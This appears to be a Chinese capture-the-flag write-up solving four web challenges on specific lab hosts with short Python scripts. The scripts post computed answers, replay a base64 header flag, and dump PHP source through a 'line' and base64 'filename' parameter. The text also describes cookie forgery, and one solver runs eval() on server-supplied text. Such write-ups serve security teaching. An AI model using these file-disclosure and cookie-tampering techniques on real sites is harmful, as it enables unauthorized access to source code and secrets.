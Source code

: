 ## 秋名山老司机

多次刷新后发现其要求post计算数据且其存在时间限制，因此采用代码。

```
import requests
import re
s = requests.Session()
r = s.get("http://123.206.87.240:8002/qiumingshan/")
searchObj = re.search(r'(\d+[+\-*])+(\d+)', r.text)
d = {
    "value": eval(searchObj.group(0))
    }
r = s.post("http://123.206.87.240:8002/qiumingshan/", data=d)
print(r.text) 
```

## 速度要快

抓包发现其头部存在flag，其采用base64编码，但解码后发现其无效，且时刻在变，因此通过post当前的flag值获取真正的flag。

```
import requests
import base64
url = 'http://123.206.87.240:8002/web6/'
s = requests.session()
flag = s.get(url).headers['flag']
flag = base64.b64decode(flag)
flag = base64.b64decode(flag.decode().split(": ")[1])
print(flag)
payload = {'margin': flag}
print(s.post(url, data=payload).text) 
```

## cookies欺骗

观察URL发现base64编码，解码后发现keys.txt。修改参数line发现不同的代码行数，利用代码获取源代码。

```
import requests
s = requests.session()
for line in range(1, 19):
    url = 'http://123.206.87.240:8002/web11/index.php?line={}&filename=aW5kZXgucGhw'.format(line)
    print(s.get(url).text) 
```

将filename修改为keys.php的base64编码，cookie修改为margin=margin。

## never give up

查看源代码发现1p.html，构造URL访问后跳转到Bugku论坛，利用view-source:http://120.24.86.145:8006/test/1p.html方式查看源码。依次进行url解码-base64解码-url解码，查看源代码，发现f4l2a3g.txt。访问获得flag。

